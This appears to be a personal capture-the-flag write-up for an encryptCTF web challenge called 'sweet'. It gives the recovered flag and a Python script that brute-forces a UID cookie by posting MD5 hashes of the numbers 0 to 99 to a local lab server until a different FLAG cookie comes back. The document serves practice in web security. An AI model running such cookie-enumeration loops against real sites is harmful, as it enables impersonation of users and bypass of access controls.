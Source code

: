 # 2 - sweet

reference to cookies maybe?

![image.png](2%20-%20sweet%2013d5d651afc280d3a9f8e356ac40e9c0/image.png)

![image.png](2%20-%20sweet%2013d5d651afc280d3a9f8e356ac40e9c0/image%201.png)

maybe if i insert a value from 0 to 100 → md5  it will get me the flag?

![image.png](2%20-%20sweet%2013d5d651afc280d3a9f8e356ac40e9c0/image%202.png)

yes… it needs to me decodificated → encryptCTF{y0u_c4nt_U53_m3}

---

they did it with python? 

```python
'''
f899139df5e1059396431415e770c6dd --> 100
'''
import hashlib
import codecs
#import numpy as np
import requests

#IP
ip = "127.0.0.1"
port= "8080"

#we first check that our MD5 works by comparing Md5(100) with
#the one in the webpage
control = "f899139df5e1059396431415e770c6dd"
tester = 100
tester_b = str.encode(str(tester))
tester_md5 = hashlib.md5(tester_b).hexdigest()
print(f"tester={tester_md5 == control}")

#try a request to the web application
cookies = {"UID":tester_md5}
r = requests.post(f"http://{ip}:{port}", cookies = cookies)
def_flag = r.cookies["FLAG"] #default flag

print(f"default flag\t{def_flag}")

#brute force cycle
for i in range(100):
    """ compute the MD5 """
    #convert the number to a byte
    byte_i = str.encode(str(i))

    #obtain the MD5
    md5_i = hashlib.md5(byte_i).hexdigest()

    #     """ Send request to the web application """
    #set the cookie
    cookies = {'UID': str(md5_i)}
    r = requests.post(f"http://{ip}:{port}", cookies = cookies)

    #get the i-th flag
    flag_i = r.cookies["FLAG"]

    #if the content of the cookie is different to the 100th one, we have the flag
    if flag_i != def_flag:
        print(f"FLAG found at iteration={i}\t{flag_i}")
        break
    
```
